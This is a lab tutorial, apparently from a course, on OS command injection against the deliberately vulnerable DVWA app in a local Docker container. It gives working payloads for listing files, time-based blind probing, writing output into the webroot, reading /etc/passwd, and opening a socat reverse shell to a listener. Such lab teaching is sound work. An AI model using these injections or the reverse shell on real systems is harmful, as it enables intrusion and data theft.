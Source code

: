 ## Get the DVWA up and running
Let’s pull up the Damn Vulnerable Web Application to see command injections in action! If it’s not already running, spin up Docker and the container:

```systemctl start docker```

```docker run --rm -it -p 80:80 vulnerables/web-dvwa```

Go through the steps to configure the app as we have done previously. Login with ```admin/admin```, configure the database, and log back in with ```admin/password```.

## Your first OS Command Injections
Go to “Command injection” in the left navigation. In the input field, type:

```; ls -a```

This lists out all the files and directories in your current, working directory. You could also type in an IP to ping before that semi-colon, but as you can see, at least on the low security level difficulty, it is not required. We can see where we are in the server using:

```; pwd```

Which returns this path:

```/var/www/html/vulnerabilities/exec```

Let’s pretend that we’re not getting any output, and so we’re not sure if our injections are working or not. One technique we can use to solve this problem is a time-based attack:

## Time-based attack
Type this in the input:

```; pwd; sleep 5```

You can see the application hanging for approximately 5 seconds, and so now you know that your sleep injection worked, which means the pwd also most likely worked.

Luckily, in this situation, we are able to see the output, and this output is telling us that the webroot for the app is at ```/var/www/html/```.

This is perfect, because while we could have tried to guess the web root directory since this is a standard, especially for apache, we’ve now confirmed it and we can use that to our advantage.

## Redirecting output
For example, if we want to figure out what user we are on the system, we could do that by redirecting the output from our command and create a text file with that output like we saw in the prior lesson:

```; whoami > /var/www/html/whoami.txt ;```

Then navigate to ```http://localhost/whoami.txt``` and you will see ```www-data```

Remember, this could also be a useful technique for blind injections since it lets us output data that we otherwise wouldn’t see. If we want to know the user ID, group ID, and group name, we can run this command:

```; echo "$(id)" > /var/www/html/whoami.txt ;```

We will see:

```uid=33(www-data) gid=33(www-data) groups=33(www-data)```

## Listing all users and attributes
If you’re familiar with Linux OS, you’ll be familiar with ```/etc/passwd```.

This is a plain text-based database that contains information for all user accounts on the system, so this would be a valuable file to try and expose. Let’s try that now:

```; cat /etc/passwd ;```

## Creating a reverse shell
Now, let’s kick it up a notch. Let’s see if we can’t create a reverse shell to connect to the server and run commands that way. I’m going to do this using a tool called socat which is fairly similar to netcat if you’re familiar with that. *On your host*, in this case Kali, we’re going to create a listener:

```socat file:`tty`,raw,echo=0 tcp-listen:1337```

Then, *on the server* (container in our case), we want to connect to that port. To do that, I first need to figure out the IP address that it will connect to:

```sudo ifconfig```

I’m looking for ```eth0```, and mine is: ```10.0.2.15```

Now that I have it, I can inject this command in the application:

```; socat tcp-connect:10.0.2.15:1337 exec:bash,pty,stderr,setsid,sigint```

At this point, our connection should be established, and we are now in the server.

```ls```

We could read through the source code of the application, which would undoubtably lead us to finding even more vulnerabilities, potentially some secrets, or potentially even modify the source code!

We can navigate around…for example, let’s go find our text file we created earlier:

```
cd /var/www/html
ls
cat whoami.txt
```

At this point, go ahead and have fun with the reverse shell since there’s a bunch of stuff you can do, and when you’re ready, I’ll see you in the next lesson!
